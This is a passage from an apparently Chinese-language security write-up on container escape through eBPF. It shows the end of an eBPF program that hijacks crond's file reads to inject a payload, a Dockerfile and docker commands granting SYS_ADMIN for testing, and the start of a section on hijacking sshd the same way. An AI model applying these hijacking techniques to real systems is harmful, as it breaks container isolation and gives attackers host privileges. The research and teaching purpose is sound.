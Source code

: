 ```
  bpf_printk("[sys_exut::handle_exit_read] sizeof PAYLOAD(%d) ; HIJACK DONE!\n",sizeof(PAYLOAD));
  read_buf_ptr = 0;
  jump_flag = MISS;
  return 0;
}

```

##### 在 Docker 中测试

**首先构建相应的环境**

```
FROM ubuntu:20.04   
ARG DEBIAN_FRONTEND=noninteractive   
 
# 接下来使用sed -i进行文本的全局字符串替换来做换源操作
RUN \
 sed -i "s/http:\/\/archive.ubuntu.com/http:\/\/mirrors.163.com/g" /etc/apt/sources.list && \
 sed -i "s/http:\/\/security.ubuntu.com/http:\/\/mirrors.163.com/g" /etc/apt/sources.list && \
 apt-get update && \
 apt-get -y dist-upgrade && \
 apt-get install -y lib32z1 ssh cpio libelf-dev
RUN useradd -m ctf
 
CMD ["/bin/sh"]   
 
EXPOSE 9999

```

```
docker build -t .
 
docker run -ti --cap-add SYS_ADMIN -- /bin/sh # 注意这里要给admin
 
docker cp ./hello :/ 
```

在 docker 里直接运行对应文件即可。

 

然可以从 cron 的 log 进行观测：

```
journalctl -f -u cron

```

最终在 docker 外执行了命令。

#### 通过 eBPF 劫持 sshd 进程

在这篇文章之后，其实很容易想到，既然可以通过 eBPF 来对其他的进程的系统调用进行劫持，那有没有可能做一些其他的事情，比如尝试针对一些除了 crond 以外的其他的**用户态高权限进程**做一些事情，其实一个比较容易想到的就是 sshd 进程。
